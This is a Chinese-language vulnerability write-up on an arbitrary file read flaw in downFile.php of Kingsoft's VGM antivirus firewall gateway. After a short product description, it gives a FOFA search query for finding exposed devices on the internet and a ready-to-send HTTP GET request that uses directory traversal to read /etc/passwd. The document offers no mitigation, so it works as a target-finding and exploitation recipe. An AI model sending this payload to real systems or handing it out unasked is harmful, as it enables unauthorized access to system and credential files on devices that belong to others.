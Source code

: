 # 金山 VGM防毒墙downFile存在任意文件读取漏洞

# 一、漏洞简介
金山 VGM防毒墙由金山安全自主研发推出的新一代专业化安全网关产品。采用、多核硬件架构和独特的模块化功能设计理念，金山 VGM防毒墙具有的高性能、高安全、易操作等特性，真正满足用户不断变化的信息安全需求。灵活稳定的架构，金山 VGM防毒墙集成了网络防火墙、状态监测、抗DDoS、防恶意软件、URL过滤、DPI监测等多种安全功能，有效抵御各类病毒和恶意软件对用户网络和业务系统的破坏。金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件。

# 二、影响版本
+ 金山 VGM防毒墙

# 三、资产测绘
+ fofa`"金山VGM"`
+ 特征

![1708142637307-ffd94189-f19f-4c4d-b4c2-eb650c58dd82.png](./img/3pBGTr3_-hUT2U1o/1708142637307-ffd94189-f19f-4c4d-b4c2-eb650c58dd82-317814.png)

# 四、漏洞复现
```java
GET /downFile.php?filename=../../../../etc/passwd HTTP/1.1
Host: 
Cookie: PHPSESSID=74hpcfh7p42bll8eabp1v88eq3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://fofa.info/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1708142781340-aa4c634a-95fc-4603-a0ed-f8afbeb0a85c.png](./img/3pBGTr3_-hUT2U1o/1708142781340-aa4c634a-95fc-4603-a0ed-f8afbeb0a85c-047081.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rzhl67wobwkxypr0>